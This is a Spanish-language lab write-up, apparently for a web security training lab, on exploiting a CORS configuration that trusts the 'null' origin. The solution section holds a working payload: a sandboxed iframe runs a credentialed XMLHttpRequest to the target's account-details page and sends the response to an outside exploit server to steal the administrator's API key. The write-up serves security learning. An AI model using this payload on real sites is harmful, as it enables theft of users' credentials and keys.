 En esta clase continuamos con el análisis de configuraciones inseguras de CORS, centrándonos en un caso donde el servidor confía en peticiones con origen null. Este tipo de comportamiento suele verse cuando se permiten solicitudes desde documentos cargados mediante iframes con ‘**sandbox**‘ y ‘**srcdoc**‘, lo cual representa un riesgo si además se permite el uso de cookies mediante ‘**Access-Control-Allow-Credentials**‘.

Aprovechamos esta vulnerabilidad para extraer la clave API del administrador. Para ello, construimos un exploit con un iframe que lanza una petición **XMLHttpRequest** desde un origen null, lo que permite al navegador incluir las cookies del administrador y acceder a información sensible. Finalmente, redirigimos la respuesta al registro del exploit server, lo que nos permite visualizar y enviar la clave para resolver el laboratorio.

Solucion
realizamos lo mismo no logeamos u en la respuesta del BS le damos forward y una ves ahi mandamos al repeater nuestra solicitud
![Pasted_image_20250728205329.png](Imagenes/Pasted_image_20250728205329.png)
y bueno en la respuesta ene ACAC tenemos un true el cual podemos llegar a pensar que podemos tener un origin pero no sabes a cual asi que nosotros podemos mandar un NULL
y no lo acepta
![Pasted_image_20250728205717.png](Imagenes/Pasted_image_20250728205717.png)

esto lo vamos a reflejar en un script de estilo iframe
(<iframe sandbox="allow-scripts" srcdoc='<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        location = 'https://exploit-0ab100c10401b08b806f5c8501ae002d.exploit-server.net/?apikey=' + btoa(req.responseText);
    };
    req.open('GET', 'https://0aeb00ce041cb072800e5dff00c20099.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
</script></iframe>)


Y con esto si revisamos de nuevo los logs obtendremos la apikey

![Pasted_image_20250728211153.png](Imagenes/Pasted_image_20250728211153.png)


![Pasted_image_20250728211359.png](Imagenes/Pasted_image_20250728211359.png)

y con esto lo convertimos a null
